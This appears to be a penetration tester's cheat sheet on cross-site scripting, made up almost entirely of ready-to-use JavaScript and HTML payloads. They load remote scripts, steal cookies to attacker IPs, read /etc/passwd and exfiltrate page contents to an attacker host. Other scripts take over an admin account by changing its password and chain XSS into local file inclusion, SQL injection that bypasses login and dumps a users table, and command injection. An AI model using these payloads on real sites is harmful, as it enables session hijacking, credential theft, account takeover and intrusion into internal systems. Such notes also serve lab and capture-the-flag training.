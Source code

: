 ```yaml
---
description: >-
  As web applications grow in complexity and prevalence, so do their
  vulnerabilities. One of the most common types of web application
  vulnerabilities is Cross-Site Scripting (XSS).
---
```


# XSS

#### XSS payloads

```bash
# Check for xss file upload vulnerability
echo '<SCRIPT SRC=http://10.10.14.22:9090/test></SCRIPT>' > test2.png

# Load remote script
<script src="http://OUR_IP/script.js"></script>

# Send cookie
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>
<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>

# Check with basic payload
<script>alert(window.origin)</script>

# HTML based
<img src="" onerror=alert(window.origin)>

# Change background color
<script>document.body.style.background = "#141d2b"</script>
```

#### Read files

```bash
# Read file
<script> x=new XMLHttpRequest; x.onload=function(){document.write(this.responseText)}; x.open('GET','file:///etc/passwd');x.send(); </script>

# Read file base64
<script> x=new XMLHttpRequest; x.onload=function(){document.write(btoa(this.responseText))}; x.open('GET','file:///etc/passwd');x.send(); </script>
```

#### Steal cookie

```javascript
<img src=x onerror="fetch('http://10.10.11.11/api/test').then(r => r.text()).then(data => fetch(`http://10.10.14.9/?data=${btoa(data)}`))">
```

```bash
# On target
<script src="http://mczen.xyz/exploit"></script>

# On attacker machine
window.location = "http://target.xzy/cookiestealer?c=" + document.cookie;
```

#### Exfiltrate data

Exfiltrate data from the victim's user context, here home.php. If the endpoint's fetch request does not include credentials remove `xhr.withCredentials = true;`.

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/home.php', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

#### Account takover

If updating password doesn not require old password we can change victims password&#x20;

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/home.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('csrf_token').value);

// change PW
var csrf_req = new XMLHttpRequest();
var params = `username=admin&email=admin@vulnerablesite.htb&password=pwned&csrf_token=6079fb6a924fc0f3128e7d2014d0e7c5`;
csrf_req.open('POST', '/home.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```

### <mark style="color:yellow;">XSS chained with LFI</mark>

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/admin.php?view=../../../../etc/passwd', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/lfi?r=" + btoa(xhr.responseText), false);
exfil.send();
```

### <mark style="color:yellow;">XSS chained with SQL injection</mark>

Using xxs we found an endpoint at http://internal.vulnerablesite.htb. First exfiltrate the data:

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://internal.vulnerablesite.htb/', false);
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

#### Test for SQL injection

```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("'test")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

#### SQL authentication bypass

```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' OR '1'='1' -- -")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

#### Dump user table

```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' UNION SELECT id,username,password,info FROM users-- -")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

### <mark style="color:yellow;">XSS chained RCE</mark>

If getting a response like `curl: (6) Could not resolve host: doesnotexist.htb` after data exfil RCE might be possible.&#x20;

```javascript
var xhr = new XMLHttpRequest();
var params = `webapp_selector=${encodeURIComponent("| id")}`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

